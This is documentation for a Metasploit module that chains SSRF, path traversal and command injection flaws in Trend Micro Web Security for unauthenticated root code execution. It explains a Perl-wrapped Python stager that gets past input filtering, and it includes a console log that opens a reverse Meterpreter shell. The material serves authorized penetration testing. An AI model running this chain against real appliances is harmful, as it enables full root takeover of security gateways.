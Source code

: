 ## Vulnerable Application

This module exploits multiple vulnerabilities together in order to achieve remote code execution in Trend Micro Web Security.
Unauthenticated users can execute a terminal command under the context of the root user.

The specific flaw exists within the `LogSettingHandler` class of administrator interface software. When parsing the `mount_device`
parameter, the process does not properly validate a user-supplied string before using it to execute a system call. An attacker can leverage
this vulnerability to execute code in the context of root. But authentication is required to exploit this vulnerability.

Another specific flaw exists within the proxy service, which listens on port 8080 by default. Unauthenticated users can exploit this
vulnerability to communicate with internal services in the product.

Last but not least a flaw exists within the Apache Solr application, which is installed within the product. When parsing the file
parameter, the process does not properly validate a user-supplied path prior to using it in file operations. An attacker can leverage this
vulnerability to disclose information in the context of IWSS user.

Due to combination of these vulnerabilities, unauthenticated users can execute a terminal command under the context of the root user.

Version perior to 6.5 SP2 Patch 4 (Build 1901) are affected.

**Vulnerable Application Installation Steps**

Trend Micro Web Security is distrubed as an ISO image by Trend Micro.

Following steps are valid on the CentOS 6 x64 bit operating system.

1. Open following URL [http://downloadcenter.trendmicro.com/](http://downloadcenter.trendmicro.com/)
2. Find "InterScan Web Security Virtual Appliance" and click.
3. Go to **Service Pack** section.
4. At the time of writing this documentation, you must see **IWSVA-6.5-SP2-1548-x86_64.iso** next to Download button.
5. Click to the download button and complete installation of ISO.

[https://files.trendmicro.com/products/iwsva/6.5/IWSVA-6.5-SP2-1548-x86_64.iso](https://files.trendmicro.com/products/iwsva/6.5/IWSVA-6.5-SP2-1548-x86_64.iso)

**System settings used for installation:**
- Virtualbox or VMware can be used.
- 8 GB of memory at least.
- 60 GB of disk size at least.

**Why Perl wrapper for python stager?**

Within the exploit function, you can see a custom Perl wrapper usage for python stager payload. The parameter that contains our payload is
going through escaping (double quotes, backslash, etc) and blacklist checks on the server-side. Most of the cmd payload will not work under
these circumstances.

I love meterpreter <3 Using python dropper, which gives a meterpreter session, with command injection vulnerability requires using a double
quote or Single-Backslash-Single-Single combination.

```
python -c '#{payload.encoded'
"python -c '#{payload.encoded.gsub("'", "'\\\\''")}'"
```

In that specific case, none of these approaches works. The idea is wrapping the python dropper within the perl command that does not
contain any special characters.

## Verification Steps

1. Start `msfconsole`
2. Run `use exploit/linux/http/trendmicro_websecurity_exec`
3. Set `RHOST`
4. Set `LHOST`
5. Run `check`
6. **Verify** that you are seeing `The target is vulnerable.`
7. Run `exploit`
8. **Verify** that you are seeing `Latest session id is successfully extracted : 29A589E94A0BC0954F7F9B1FE7EC8858` in console.

## Options

## Scenarios

This module has been tested against Trend Micro Web Security 6.5-SP2_Build_Linux_1852.

```
msf5 > use exploit/linux/http/trendmicro_websecurity_exec
msf5 exploit(linux/http/trendmicro_websecurity_exec) > set RHOSTS 192.168.74.31
RHOSTS => 192.168.74.31
msf5 exploit(linux/http/trendmicro_websecurity_exec) > set LHOST 172.31.224.186 
LHOST => 172.31.224.186
msf5 exploit(linux/http/trendmicro_websecurity_exec) > check

[*] Trying to extract session ID by exploiting reverse proxy service
[+] Extracted number of JSESSIONID : 16
[*] Testing JSESSIONID #0 : 132B2651F070E865A646F3ABA681769A
[+] Awesome !!! JESSIONID #0 is active.
[+] 192.168.74.31:8443 - The target is vulnerable.
msf5 exploit(linux/http/trendmicro_websecurity_exec) > run

[*] Started reverse TCP handler on 172.31.224.186:4444 
[*] Trying to extract session ID by exploiting reverse proxy service
[+] Extracted number of JSESSIONID : 16
[*] Testing JSESSIONID #0 : 132B2651F070E865A646F3ABA681769A
[+] Awesome !!! JESSIONID #0 is active.
[*] Exploiting command injection vulnerability
[*] Sending stage (53755 bytes) to 172.31.224.1
[*] Meterpreter session 1 opened (172.31.224.186:4444 -> 172.31.224.1:53061) at 2020-06-18 20:10:29 +0300

meterpreter > shell
Process 40116 created.
Channel 1 created.
sh: no job control in this shell
sh-4.1# id
uid=0(root) gid=0(root) groups=0(root),499(iscan)
sh-4.1#
```
